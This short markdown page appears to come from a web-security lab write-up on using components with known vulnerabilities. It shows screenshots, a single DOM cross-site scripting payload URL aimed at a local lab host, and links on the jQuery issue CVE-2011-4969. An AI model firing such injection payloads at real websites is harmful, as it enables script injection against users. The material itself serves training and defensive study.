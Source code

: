 #### A9 : Using Components with Known Vulnerabilities

![](images/9/1.png)

![](images/9/2.png)

![](images/9/3.png)

![](images/9/4.png)

![](images/9/5.png)

![](images/9/6.png)

![](images/9/7.png)

![](images/9/8.png)

- Payload

```
http://172.17.0.1:8899/a9.html#%3Cimg%20src=x%20onerror=alert(1)%3E
```

- Links
	- [CVE-2011-4969](https://www.cvedetails.com/cve/CVE-2011-4969/)
	- [jquery-is-sink](http://blog.mindedsecurity.com/2011/07/jquery-is-sink.html)